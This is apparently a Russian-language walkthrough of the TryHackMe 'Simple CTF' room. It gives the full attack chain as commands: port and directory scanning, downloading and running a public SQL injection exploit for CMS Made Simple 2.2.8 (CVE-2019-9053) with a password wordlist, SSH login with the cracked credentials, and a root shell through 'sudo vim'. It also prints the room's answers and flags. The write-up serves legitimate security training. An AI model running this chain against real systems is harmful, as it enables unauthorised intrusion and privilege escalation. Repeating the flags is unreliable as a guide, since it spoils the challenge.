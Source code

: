 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Simple CTF](https://tryhackme.com/r/room/easyctf) 

Всего 1 задание:
## Задание 1
Разверните машину и попробуйте ответить на вопросы!
### Ответить на вопросы ниже

Сколько служб работает на портах меньше чем 1000?
для того что бы ответить на этот вопрос запустить сканирование через nmap
```commandline
nmap -sC -Cv 10.10.25.90
```
и видим всего 3 порта: 21,80 и 2222, т.о. ответ будет:
```commandline
2
```
Что работает на верхнем порту? под верхним портом понимается набольший (ближе к 65000), т.е. на 2222-м порту
```commandline
ssh
```
в этой комнате будем пытаться взламывать веб-сайт по 80 порту, запустим сканирование через gobuster
```commandline
gobuster dir -u 10.10.25.90 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
в результате мы найдем страницу http://10.10.25.90/simple/ при переходе на которую мы в нижнем левом углу видим на 
каком CMS эта страницы была создана, ей оказалась "CMS Made Simple 2.2.8"
google - CMS Made Simple 2.2.8 первая же страница https://www.exploit-db.com/exploits/46635 показывает что данная 
CMS уязвима для SQL инъекций и для этой уязвимости подготовлен эксплоит на python (копию файла Вы можете найти https://github.com/BEPb/tryhackme/blob/master/01.easy/Simple%20CTF/exploit.py)
команда для скачивания файла по адресу
```commandline
wget https://www.exploit-db.com/download/46635
```

Какую CVE вы используете против приложения?
```commandline
CVE-2019-9053
```
Какому типу уязвимости подвержено приложение?
```commandline
sqli
```
теперь установим недостающую библиотеку и применим наш эксплойт, который по сути проводит брут-форс атаку, для 
который мы указываем IP-адрес целевой машины и адрес файла для перебора паролей.
```commandline
pip install termcolor
python exploit.py -u http://10.10.25.90/simple --crack -w /usr/share/wordlists/rockyou.txt
```
т.о. получим mitch:secret
Какой пароль?
```commandline
secret
```
как мы помним у нас открыто 3 порта 1-н из которых ssh на 2222-м порту, подключимся к нему командой:
```commandline
ssh mitch@10.10.25.90 -p 2222
```
Где можно войти в систему с полученными данными?
```commandline
ssh
```
```commandline
cat user.txt
```
Что такое флаг пользователя?
```commandline
G00d j0b, keep up!
```
```commandline
cd ..
ls
```
Есть ли еще какой-нибудь пользователь в домашнем каталоге? Как его зовут?
```commandline
sunbath
```
проверим какие файлы мы можем исполнять с правами суперпользователя, и выполним запуск vim с применением команды 
перехода в оболочку `sh` с root правами
```commandline
sudo -l
sudo vim -c ‘:!/bin/sh’
```
Что можно использовать для создания привилегированной оболочки?
```commandline
vim
```
получим рутовый флаг
```commandline
cat /root/root.txt
```
Что такое корневой флаг?
```commandline
W3ll d0n3. You made it!
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)